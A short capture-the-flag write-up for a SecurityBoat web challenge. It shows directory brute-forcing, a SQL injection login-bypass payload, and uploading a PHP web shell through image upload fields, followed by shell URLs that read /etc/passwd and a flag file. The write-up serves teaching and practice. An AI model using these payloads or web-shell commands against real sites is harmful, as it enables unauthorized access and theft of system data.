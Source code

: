 # SecurityBoat CTF WriteUp - Jan 2024

Link for CTF: [http://ctf.securityboat.net/](http://ctf.securityboat.net/)

## Recon:

### Without Login:

1. Tried accessing `robot.txt` and `robots.txt`, but no files were found.
2. Brute-forced the URL with `feroxbuster`.
   ```
   feroxbuster -u http://ctf.securityboat.net/
   ```
   Interesting folders found: `admin`, `JS`, `assets`.

### With Login:

1. Registered to the site with admin credentials.
2. Logged in with admin credentials.
   - Username: admin11
   - Password: 123456789
3. Redirected to [http://ctf.securityboat.net/admin/dashboard.html](http://ctf.securityboat.net/admin/dashboard.html).
4. Bypassed the login panel using SQLi Injection to get admin dashboard.
   - Payload used for SQLi: `admin' or '1'='1`
5. Got access to the admin panel.

## Exploitation:

1. Checked all options in the admin dashboard; found parameters like description and name vulnerable to XSS attacks, and an image upload option for products.
2. For normal users, found an option to upload a profile picture.

### Admin User (File Upload via Edit-Products):

1. Uploaded PHP reverse shell in the image option in products.
   ![Admin|Edit-Products](http://ctf.securityboat.net/assets/products/payload.php)
2. Enumerated the system:
   - [List current directory](http://ctf.securityboat.net/assets/products/payload.php?cmd=pwd)
   - [Read `/etc/passwd`](http://ctf.securityboat.net/assets/products/payload.php?cmd=cat%20/etc/passwd)
   - [Change to `/home` directory and list contents](http://ctf.securityboat.net/assets/products/payload.php?cmd=cd%20/home;ls)
   - [Read `/home/flag.txt`](http://ctf.securityboat.net/assets/products/payload.php?cmd=cat%20/home/flag.txt)
   Flag: `{Unrestr!cted_F!le_Upload_!s_Fun}`

### Normal User (File Upload via Profile Pic):

1. Uploaded PHP reverse shell in the profile pic.
   [Profile Pic Shell](http://ctf.securityboat.net/assets/profPic/payload.php)
2. Enumerated the system:
   - [Read `/etc/passwd`](http://ctf.securityboat.net/assets/profPic/payload.php?cmd=cat%20/etc/passwd)
   - [Change to `/home` directory and list contents](http://ctf.securityboat.net/assets/profPic/payload.php?cmd=cd%20/home;ls)
   - [Read `/home/flag.txt`](http://ctf.securityboat.net/assets/profPic/payload.php?cmd=cat%20/home/flag.txt)
   Flag: `{Unrestr!cted_F!le_Upload_!s_Fun}`

I hope you find this writeup informative!
